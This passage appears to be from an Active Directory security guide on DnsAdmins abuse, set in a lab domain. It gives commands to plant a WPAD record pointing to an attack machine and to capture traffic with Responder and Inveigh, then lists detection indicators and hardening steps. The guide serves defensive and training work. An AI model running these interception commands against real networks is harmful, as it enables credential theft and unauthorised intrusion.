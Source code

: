 #### Create WPAD Record
```powershell
# Add WPAD record pointing to attack machine
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```

#### Traffic Interception
```bash
# Set up Responder for traffic capture
responder -I eth0 -A

# Alternative: Use Inveigh
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -Proxy Y
```

## 🔍 Detection Indicators

### Registry Monitoring
```cmd
# Monitor for registry changes:
HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ServerLevelPluginDll

# Event IDs to watch:
Event ID 4657 - Registry value modified
Event ID 4656 - Handle to object requested
```

### Service Activity
```cmd
# Suspicious activities:
- DNS service stops/starts outside maintenance windows
- dnscmd.exe execution by non-administrative users
- Custom DLL files in DNS-related directories
- Network connections from DNS service process
```

### Network Indicators
```cmd
# Traffic patterns:
- HTTP requests for DLL files from Domain Controllers
- SMB connections to unusual shares
- DNS queries to non-standard records (WPAD)
```

## 🛡️ Defense Strategies

### Group Membership Hardening
```cmd
# Regular audits:
- Review DnsAdmins group membership quarterly
- Remove unnecessary accounts
- Implement least-privilege principles
- Use dedicated DNS management accounts
```

